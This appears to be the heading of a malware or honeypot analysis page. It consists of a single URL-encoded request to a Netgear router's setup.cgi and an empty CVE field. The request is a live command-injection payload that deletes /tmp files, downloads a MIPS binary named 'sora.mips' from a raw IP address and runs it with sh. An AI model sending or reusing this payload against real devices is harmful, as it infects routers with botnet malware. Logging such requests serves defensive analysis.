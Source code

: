 # Analysis for /setup.cgi%3Fnext_file%3Dnetgear.cfg%26todo%3Dsyscmd%26cmd%3Drm+-rf+%2Ftmp%2F*%3Bwget+http%3A%2F%2F107.172.249.3%2Fbins%2Fsora.mips+-O+%2Ftmp%2Fnetgear%3Bsh+netgear%26curpath%3D%2F%26currentsetting.htm%3D1
## CVE: 